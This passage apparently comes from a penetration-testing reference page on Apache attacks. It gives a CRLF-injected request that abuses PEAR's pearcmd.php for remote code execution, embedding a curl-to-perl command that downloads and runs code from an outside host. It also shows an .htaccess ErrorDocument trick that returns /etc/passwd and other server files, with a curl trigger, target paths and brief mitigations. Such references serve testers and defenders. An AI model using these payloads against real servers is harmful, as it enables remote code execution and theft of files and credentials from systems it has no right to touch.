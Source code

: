 #### **Arbitrary Handler to RCE**

The official [PHP Docker](https://hub.docker.com/_/php) image includes PEAR (`Pearcmd.php`), a command-line PHP package management tool, which can be abused to obtain RCE:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

Check [**Docker PHP LFI Summary**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), written by [Phith0n](https://x.com/phithon_xg) for the details of this technique.

## LFI via .htaccess ErrorDocument expressions

If Apache 2.4+ allows expressions in directory context and `AllowOverride FileInfo` permits `.htaccess` to set `ErrorDocument`, a user-writable `.htaccess` can be abused to read arbitrary files on the server as the web user.

- The `ErrorDocument` directive accepts [ap_expr](https://httpd.apache.org/docs/2.4/expr.html) string expressions, including the `file` function: `%{file:/abs/path}`.
- Placing this in a directory’s `.htaccess` causes the body of a matching error response to be the contents of the referenced file, effectively yielding LFI without touching application code.

Example `.htaccess` under a user-controlled directory:

```apache
# keep any existing headers intact
Header always set X-Zero-Customer 'zro-de834d1c'
# Read any file and return it as the 404 body
ErrorDocument 404 %{file:/etc/passwd}
```

Trigger any missing path beneath that directory to exfiltrate the file:

```bash
curl http://target/~user/does-not-exist -i
# HTTP/1.1 404 Not Found
# ...
# <contents of /etc/passwd>
```

Notes:
- Works for any file readable by the Apache worker user (often `www-data`). Try `/etc/hosts`, vhost configs under `/etc/apache2/sites-*/`, or app sources under `/var/www/html/`.
- Pre-requisites: Apache 2.4+, expressions enabled (core), `AllowOverride FileInfo` (or broader), and `.htaccess` honored for that path.
- Mitigations: disable or tightly scope `AllowOverride`, or deny expression use in `ErrorDocument` for untrusted directories.

## Piped logs executed even during config tests (-t)
